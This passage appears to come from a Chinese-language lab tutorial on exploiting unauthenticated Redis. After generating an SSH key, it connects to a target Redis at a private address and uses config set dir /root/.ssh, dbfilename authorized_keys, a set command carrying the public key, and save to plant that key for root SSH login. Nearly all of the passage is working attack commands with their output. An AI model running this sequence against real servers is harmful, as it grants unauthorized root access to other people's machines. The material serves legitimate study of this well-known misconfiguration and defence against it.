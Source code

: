```
./src/redis-server redis.conf
```



## 写入ssh-keygen公钥

现在下先在本地生成一对密钥

```
kingkk@ubuntu:~/.ssh$ ssh-keygen -t rsa
```

这样就可以在~/.ssh目录下生成一对`id_rsa`、` id_rsa.pub `

![](redis未授权访问与ssrf利用\1.png)



然后连接靶机redis

```
kingkk@ubuntu:~/test/redis$ redis-cli -h 192.168.85.132           # 连接靶机
192.168.85.132:6379> config set dir /root/.ssh                    # 设置本地存储文件目录
OK
192.168.85.132:6379> config set dbfilename authorized_keys        # 设置本地存储文件名
OK
192.168.85.132:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCjFdA5iENqT7mVAv3kopJZi0jtaDbXq2VwX7AM4Gk8wkAgBjnNGuxP0Tt5Sz0sQY1brgP7pmtTCeXUhPS33qK9RWXHNNuAAnns3c5nTtEuKvZtE+5aFDiVvyjDBhvR9YfzQFc+MgCDNedF6Fe+tzSPxDvqk5hGUoqEgwQS0NQNEIN93qN/qEiCXrUMacy6JS6fa2AC99JO+0LdVB0yMPgW2neJZSoJOYdFdJiW4XSn94aUf/mHmZQbT2VxNHv1nEspyhssTaNzDrBAE60hL91Q+CEO2ir2sSZ95xwJXJQJbeD1HyyiAhwg/ajoBafT45Ae5BjY+cH9a8gCpzXu8Tp7 kingkk@ubuntu\n\n\n"                                  		                           # 设置一个值为id_rsa.pub公钥值
OK
192.168.85.132:6379> save                                         # 存储数据
OK
```
